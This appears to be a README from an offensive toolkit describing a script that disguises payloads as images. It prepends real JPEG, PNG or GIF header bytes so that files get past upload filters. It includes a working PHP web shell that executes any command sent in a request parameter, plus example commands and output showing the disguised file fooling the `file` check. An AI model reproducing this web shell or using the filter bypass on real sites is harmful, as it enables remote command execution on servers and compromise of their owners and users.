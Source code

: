 # Scripts for payload generation

## disguiseAsImage

This script is designed to disguise a payload as an image. It does this by adding the first 20 bytes of a real image to the beginning of the file and adding a file extension. This will fool most filters that, for example, might only allow images to be uploaded.

To use it, you will need to have a payload ready to use. It could be anything, here is a simple php script named payload.php

```php
<?php
if( isset( $_REQUEST['jh'] ) ):
	system( $_REQUEST['jh'] );
endif;
```

If I run `disguiseAsImage payload.php`, the script will create a file called `payload.php.jpg`.

```
.
├── payload.php
└── payload.php.jpg
```

After running `file` on both, you will see that it incorrectly identifies the second as an image.

```sh
file payload.php*
payload.php:     PHP script, ASCII text
payload.php.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 300x300, segment length 16
```

The script will, by default, generate a jpg although you can specify png or gif by adding a second argument, e.g.

```
disguiseAsImage payload.php png
```
